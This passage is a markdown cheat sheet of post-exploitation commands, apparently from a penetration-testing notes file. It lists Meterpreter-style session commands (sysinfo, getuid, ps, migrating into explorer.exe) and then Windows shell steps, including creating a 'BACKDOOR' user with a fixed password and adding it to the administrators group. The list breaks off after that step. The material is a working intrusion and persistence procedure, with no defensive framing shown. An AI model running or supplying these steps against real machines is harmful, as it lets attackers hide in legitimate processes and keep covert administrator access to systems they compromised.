     * gathering
        * systeminfo 
        ```
        sysinfo
        ```
        * usename
        ```
        getuid
        ```
        * process
        ```
        ps
        ```
        * search a specified process
        ```
        ps -S icecast
        ```
        * navegate dir
        ```
        cd c:\\
        ```
        * show current dir
        ```
        pwd
        ```
        * dir listing
        ```
        ls
        ```
        * shell
        ```
        shell
        ```
    * migrate 
        * search process
        ```
        ps -S explorer.exe
        ```
        * migrate command
        ```
        migrate -N explorer.exe
        ```
### shell
* windows
    * ipaddress info
    ```
    ipconfig
    ```
    * look at the users on the system
    ```
    net user
    ```
    * create backdoor account
    ```
    net user BACKDOOR Password1 /add
    ```
    * user info
    ```
    net user BACKDOOR
    ```
    * make user account an administrator
    ```
    net localgroup administrators BACKDOOR /add